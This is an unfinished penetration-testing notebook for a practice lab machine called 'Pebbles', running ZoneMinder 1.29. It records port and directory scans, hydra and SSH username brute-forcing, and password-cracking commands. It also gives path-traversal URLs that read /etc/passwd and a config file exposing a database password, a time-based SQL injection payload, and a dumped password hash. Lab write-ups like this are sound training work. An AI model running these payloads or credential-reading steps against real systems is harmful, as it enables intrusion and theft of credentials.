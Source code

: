 # Pebbles
## Table of Contents
* [Summary](#summary)
* [Enumerate](#enumerate)
  * [Ports](#ports)
  * [Services](#services)
    * [SSH](#ssh)
    * [FTP](#ftp)
    * [HTTP](#http)
* [Exploit](#exploit)
  * [Online Password Guessing](#online-password-guessing)
* [Escalate](#escalate)
* [Explore](#explore)
* [Effect](#effect)

## Summary
* Hostname: pebbles 
* IP address: 192.168.69.52
* Domain: 
* TCP Ports and Services
  * 21
    * vsftpd 3.0.3
  * 22
    * OpenSSH 7.2p2
  * 80
    * Apache 2.4.18
    * Pebbles
    * ZoneMiner 1.29
    * CakePHP 2.8.0 (PHP 5.2.8)
  * 3305
    * Apache 2.4.18
    * ZoneMiner 1.29
    * CakePHP 2.8.0 (PHP 5.2.8)
  * 8080 
    * Apache 2.4.18
    * Tomcat 9
    * ZoneMiner 1.29
    * CakePHP 2.8.0 (PHP 5.2.8)
* OS
  * Distro: Ubuntu 16.04.6 LTS (ref: /etc/issue via LFI)
  * Kernel: Linux 3.11 - 4.1 (ref: Nmap)
* Users
  * Sally (ref: /etc/passwd via LFI)
* Vulnerabilities
  * CVE-??? (ref:)
* Exploits
  * sqlmap (ref:)
* Flag
  * ???
* Hints
  * Brute-force hidden directories of a website. You might want to use a larger wordlist for this. Locate the application name and version. 
* References
  * https://packetstormsecurity.com/files/140927/ZoneMinder-XSS-CSRF-File-Disclosure-Authentication-Bypass.html

# Enumerate
```bash
TARGET=192.168.69.52
NAME=pebbles
mkdir $NAME
mkdir $NAME/exploits
mkdir $NAME/loot
mkdir $NAME/scans
mkdir $NAME/screenshots
sudo save-screenshots-here $NAME/screenshots
cd $NAME
```

## Ports
```bash
sudo nmap $TARGET -sS -sU --min-rate 1000 -oN scans/$NAME-nmap-initial
sudo nmap $TARGET -sS -sU -p- --min-rate 1000 -oN scans/$NAME-nmap-complete
sudo nmap $TARGET -sV $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions

# output
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 22:25 EDT
Nmap scan report for 192.168.69.52
Host is up (0.086s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

## Services
### HTTP
```bash
dirsearch -u 192.168.54.52:80 -o /home/victor/pg/pebbles/scans/pebbles-dirsearch-80 --format=simple
dirsearch -u 192.168.54.52:3305 -o /home/victor/pg/pebbles/scans/pebbles-dirsearch-3305 --format=simple
dirsearch -u 192.168.54.52:8080 -o /home/victor/pg/pebbles/scans/pebbles-dirsearch-8080 --format=simple

# output (recursive search against TCP port 80)
[23:01:19] 301 -  312B  - /css  ->  http://192.168.69.52/css/                                            
[23:01:22] 301 -  315B  - /images  ->  http://192.168.69.52/images/                                                          
[23:01:22] 200 -    1KB - /images/     (Added to queue)         
[23:01:22] 200 -    1KB - /index.php                                                                                                  
[23:01:22] 200 -    1KB - /index.php/login/     (Added to queue)
[23:01:23] 301 -  319B  - /javascript  ->  http://192.168.69.52/javascript/ 

# output (recursive search against TCP port 3305)
[23:05:01] 200 -   11KB - /index.html                                                                                                 
[23:05:02] 301 -  326B  - /javascript  ->  http://192.168.69.52:3305/javascript/      
[23:05:09] 403 -  280B  - /server-status/     (Added to queue) 

# output (recursive search against TCP port 8080)
[23:10:11] 301 -  323B  - /WEB-INF  ->  http://192.168.69.52:8080/WEB-INF/                             
[23:10:11] 200 -  941B  - /WEB-INF/     (Added to queue)
[23:10:12] 403 -  280B  - /WEB-INF/web.xml                                                        
[23:10:24] 403 -  280B  - /cgi-bin/     (Added to queue)                                                                   
[23:10:28] 200 -   21KB - /favicon.ico                                                                                       
[23:10:30] 200 -   11KB - /index.php                                                                                                  
[23:10:30] 200 -   11KB - /index.php/login/     (Added to queue)
[23:10:31] 301 -  326B  - /javascript  ->  http://192.168.69.52:8080/javascript/ 
```
```bash
/WEB-INF/web.xml                                                        

# output
The Web Application Deployment Descriptor for your application. This is an XML file describing the servlets and other components that make up your application, along with any initialization parameters and container-managed security constraints that you want the server to enforce for you. 
```
```bash
dirb http://$TARGET -r -z10 -o scans/pebbles-dirb

# output
NSTR
```
```bash
nikto -h $TARGET -T 2 -Format txt -o scans/$NAME-nikto-misconfig

# output
NSTR
```
```bash
sudo nmap $TARGET --script http-shellshock -oN scans/$NAME-nmap-script-http-shellshock

# output: 80, 3305, 8080 
NSTR
```

# Exploit
## Online Password Guessing
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.69.52 http-post-form "/index.php?:username=^USER^&password=^PASS^:Incorrect username or password..."

# output
NSTR
```

Brute forcing SSH usernames. Discovered couchdb is an Apache-based web app. 
```bash
searchsploit openssh 7.2
searchsploit -x 40136
pip install paramiko
pip install numpy
python 40136 192.168.103.52 -U /usr/share/wordlists/metasploit/unix_users.txt

# output
[+] chronos - timing: 0.03030900000000014
[+] chrony - timing: 0.03318299999999996
[+] couchdb - timing: 0.02491600000000016
```

## Offline Password Guessing
Hashcat
```bash
hashcat -m 1000 -a 0 --force --show $HASHDUMP /usr/share/wordlists/rockyou.txt 
```

John the Ripper
```bash
unshadow $PASSWD_FILE $SHADOW_FILE > $HASHDUMP
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```


```bash
firefox http://192.168.54.52/zm/index.php?view=file&path=/../../../../../etc/passwd

# REFERENCES
```

```bash
firefox http://192.168.54.52/zm/index.php?view=file&path=/../../../../../etc/zm/zm.conf

# OUTPUT
# Username and group that web daemon (httpd/apache) runs as
ZM_WEB_USER=www-data
ZM_WEB_GROUP=www-data

# ZoneMinder database type: so far only mysql is supported
ZM_DB_TYPE=mysql

# ZoneMinder database hostname or ip address
ZM_DB_HOST=localhost

# ZoneMinder database name
ZM_DB_NAME=zm

# ZoneMinder database user
ZM_DB_USER=root

# ZoneMinder database password
ZM_DB_PASS=ShinyLucentMarker361
```

SQL injection
```bash
firefox http://192.168.54.52/zm/index.php?view=request&request=log&task=query&limit=100;(SELECT%20*FROM%20(SELECT(SLEEP(5)))OQkj)
```

```bash
admin
*4ACFE3202A5FF5CF467898FC58AAB1D615029441
```

# Explore

# Escalate


# Effect
